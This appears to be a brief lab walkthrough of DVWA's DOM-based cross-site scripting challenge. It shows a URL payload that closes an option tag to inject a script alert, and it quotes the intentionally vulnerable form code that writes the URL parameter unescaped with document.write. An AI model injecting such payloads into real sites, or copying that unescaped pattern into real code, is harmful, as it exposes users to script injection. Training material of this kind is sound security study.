 Select any option, you would see `?default=lang` in the URL, simply add this script in the URL smartly:
```
?default=English</option><script>alert('XSS')</script>
```
so the URL looks like:
`localhost/DVWA/vulnerabilities/xss_d/?default=English</option><script>alert('XSS')</script>`

This happens because the form code for this xss_dom is:
```
		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
```
we close the option's tag and pass our stuff there.
